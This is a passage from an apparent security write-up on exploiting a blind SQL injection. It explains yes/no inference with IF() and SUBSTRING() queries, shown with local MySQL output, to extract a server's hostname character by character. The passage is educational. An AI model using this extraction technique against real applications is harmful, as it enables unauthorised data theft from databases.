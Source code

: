 So, no way to directly exfiltrate data then. This SQLi is as blind as a dodo (what? Dodos are dead, and dead things can’t see).

---

## Binary Questions

One of the fairly common ways to leverage a blind SQL Injection is to ask yes/no questions using an IF(expression, true, false) statement, and that was my very first thought. I knew already that if I provided an ID of 2 there would be some assets attached to the widgets, and if I provided an ID of 1 there would be no assets. So — in theory at least — I could use a subquery as my payload and have it return 2 for true and 1 for false. If there’s assets in the response the answer would be ‘yes’, and if there aren’t any the answer would be ‘no’.

I decided I would test the theory by trying to figure out something simple: the hostname of the database server. The hostname on a MySQL server is stored in the hostname variable, and you can easily see it like this:

```
mysql> SELECT @@hostname;
+------------+
| @@hostname |
+------------+
| girru      |
+------------+
1 row in set (0.00 sec)
```

These examples are being run on a machine of mine, named after the Babylonian god of fire. I always think it’s a good idea to test whatever you can locally instead of blindly (hah) trying to figure things out on the actual target, with no real feedback or error messages.

Because I can only ask yes/no questions, to figure out the hostname I need to see if the first character is an a, if it’s a b, or c, and so on until I find the right character; then I can move on to the second character. You can do that by using the SUBSTRING() function:

```
mysql> SELECT IF(SUBSTRING(@@hostname, 1, 1) = "a", 2, 1);
+---------------------------------------------+
| IF(SUBSTRING(@@hostname, 1, 1) = "a", 2, 1) |
+---------------------------------------------+
|                                           1 |
+---------------------------------------------+
1 row in set (0.00 sec)
```

Remember: a 1 in the result means ‘no’, and a 2 means ‘yes’. So, nope: not an a.


```
mysql> SELECT IF(SUBSTRING(@@hostname, 1, 1) = "b", 2, 1);
+---------------------------------------------+
| IF(SUBSTRING(@@hostname, 1, 1) = "b", 2, 1) |
+---------------------------------------------+
|                                           1 |
+---------------------------------------------+
1 row in set (0.00 sec)
```
